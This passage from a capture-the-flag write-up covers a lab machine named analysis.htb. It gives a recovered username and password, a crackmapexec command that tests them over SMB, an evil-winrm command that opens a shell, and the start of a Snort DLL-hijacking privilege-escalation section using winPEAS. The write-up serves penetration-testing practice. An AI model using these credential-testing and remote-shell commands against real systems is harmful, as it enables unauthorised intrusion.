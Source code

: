 - Found credentials for a user:
**jdoe : 7y4Z4^\*y9Zzj**

- Test the credentials with CME:

```bash
crackmapexec smb analysis.htb -u jdoe -p 7y4Z4^*y9Zzj

```

![image38](../resources/7b0b0f8b5a4f4bb99184c3498e53c9b2.png)

- Get a shell:

```bash
evil-winrm -i analysis.htb -u jdoe -p "7y4Z4^*y9Zzj"

```

![image39](../resources/8b9d680de2a541e6b3d15859556123d7.png)

cat user.txt

**<u>Priv Esc Method 1: Snort DLL Hijacking</u>**

- Downloaded the latest winPeasAny.exe script
<https://github.com/carlospolop/PEASS-ng/releases/tag/20240303-ce06043c>

- Running that gave me:

![image40](../resources/1ea64867439b4930b400dba60552cb72.png)

- Looking through the Snort files - we get a config file:

![image41](../resources/04ec3d6ac9ee46deacb98a8135a21518.png)
